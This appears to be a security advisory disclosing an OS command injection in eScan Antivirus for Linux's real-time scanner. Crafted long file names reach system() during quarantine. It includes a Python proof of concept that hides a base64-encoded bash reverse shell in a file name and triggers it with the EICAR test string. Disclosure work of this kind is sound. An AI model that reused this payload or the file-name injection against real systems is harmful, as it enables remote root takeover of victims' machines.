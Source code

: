 # Description and Impact
Escan Antivirus for Linux has real-time protection program `rtscanner` run as system service. This program has a OS Command injection vulnerability in quarantine file mechanism. An attacker can send crafted file and gain remote code execution with highest privilege as soon as crafted file writes into victim's disk.

# Root-cause
1. `rtscanner` failed to quarantine a file that has name **>= 253** characters (max file name's length on Linux is 255). This program uses command `mv` to move file to quarantine folder.
2. `rtscanner` uses dangerous function `system` with unsanitized data.

![image](https://github.com/user-attachments/assets/b63d71ed-2c7e-49db-9d57-efe79099fd51)

3. By default, `/tmp/` and `/home/` are being monitored

![image](https://github.com/user-attachments/assets/f427f130-c92e-43cd-a3d2-db708cc46bb2)

An attacker can send any malicious file with crafted file name. As soon as crafted file writes into these folders, quarantine mechanism executes and malicious code command is executed with system's privilege.

In demotration bellow, I sent compressed file that contains malicious file to victim's machine. By default, compressed files are not being scanned by real-time scanner. Malicious code executes as soon as user uncompress downloaded file.

![image](https://github.com/user-attachments/assets/962d5187-a847-4131-9945-6fd254c7d39b)

*Important notes*:
- When decompress using `Extract here` feature, program `engrampa` extracts internal file into a folder if there's no folder. The format will be `<name of compressed file> <suffix>` where suffix is a number, like `(2)`, `(3)`. Meanwhile real-time scanner adds folder `<name of compressed file>` to **inotify**'s watch list. This is a logic bug in scanner's logic. Therefore, compressed file delivered to victim must contains internal folder that has the same name with zip file.
- Demotration shows malicious code execution when file is decompressed. In other attack scenarios, malicious code might be executed *as soon as crafted file is written into victim's system* without user's interactions.
- Servers that has file upload feature and eScan for Linux (configured to monitor uploaded files) are under great danger.

# Proof-of-concept
1. Create crafted file that executes bash redirection to make reverse shell. Python script:

```
MAX_LEN=253

# Payload to trigger reverse shell
# bash -c 'exec bash -i &>/dev/tcp/192.168.58.192/8888 <&1'
PAYLOAD=";echo YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTkyLjE2OC41OC4xOTIvODg4OCA8JjEnCg==|base64 -d|sh"
PREFIX="AA AA" # Doesn't really required. But it looks a little better
SUFFIX=" # "
CHUNK="A" * (MAX_LEN - len(PREFIX) - len(PAYLOAD) - len(SUFFIX))
NAME=PREFIX + PAYLOAD + SUFFIX + CHUNK

print("DEBUG: created file with len", len(NAME))

# Content to trigger quarantine action
CONTENT="X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"

with open("/tmp/" + NAME, "w") as f:
    f.write(CONTENT)
```

2. Create compressed zip file that contain crafted file and move it to web server.

![image](https://github.com/user-attachments/assets/1f1a110d-f61f-421e-9d80-ee055a30bccf)

![image](https://github.com/user-attachments/assets/0a048f52-4473-4bb6-9e4e-c8b435870c44)

Attacker creates a listener and wait victim's download malicious file.

![image](https://github.com/user-attachments/assets/1f1fc670-1372-4476-b946-8164d14347e1)


3. Victim downloads zip file then extract

![image](https://github.com/user-attachments/assets/24482606-d03c-41ac-b7e0-43b9b3606feb)

![image](https://github.com/user-attachments/assets/70e2d760-c482-4ca2-814e-53af386f9958)

4. Attacker gains remote code execution

![image](https://github.com/user-attachments/assets/4b15a68f-af35-48f4-8e84-32e1260dfe6f)

![image](https://github.com/user-attachments/assets/b4720dfe-fac8-49e0-9772-e47222095b03)
